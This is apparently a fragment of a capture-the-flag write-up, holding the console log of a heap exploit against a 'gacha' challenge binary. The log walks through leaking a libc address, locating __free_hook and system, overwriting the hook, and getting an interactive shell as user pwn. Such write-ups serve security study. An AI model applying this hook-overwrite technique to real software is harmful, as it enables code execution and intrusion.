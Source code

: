 
```

=====Leaking libc address=====
==Gacha 100 times==
==Gacha 100 times==
==Gacha 500 times==
==Gacha 200 times==
==Cleared==
==Gacha 200 times==

=====Result=====
libc_leak <main_arena+96> :  0x7f64fee39be0
libc_base : 0x7f64fec4e000
__free_hook : 0x7f64fee3cb28
system : 0x7f64feca3410

=====Preparing writing at __free_hook=====
0x00007f64fee3cb28
0xfee3cb28
0x00007f64
==Write 0-0 as 0x00007f64fee3cb28==

=====Reset history before malloc at __free_hook=====
==Gacha 10 times==
==Gacha 10 times==

=====Malloc at __free_hook=====
==Gacha 100 times==
==Gacha 100 times==

=====Writing system at __free_hook=====
0x00007f64feca3410
0xfeca3410
0x00007f64
==Write 1-0 as 0x00007f64feca3410==

=====Writing /bin/sh for free hook=====
==Gacha 2 times==
0x0068732f6e69622f
0x6e69622f
0x0068732f
==Write 2-0 as 0x0068732f6e69622f==

=====Shelllllllllllllll=====
==Cleared==
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
```
